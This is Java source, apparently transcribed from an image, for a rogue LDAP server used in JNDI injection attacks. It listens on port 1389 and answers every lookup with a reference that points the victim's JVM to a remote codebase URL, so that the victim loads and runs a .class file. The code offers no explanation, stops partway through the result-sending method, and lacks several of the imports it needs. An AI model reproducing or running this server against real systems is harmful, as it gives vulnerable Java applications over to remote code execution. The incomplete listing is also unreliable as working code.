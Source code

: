 ```
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://127.0.0.1/#test"};
        int port = 1389;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

```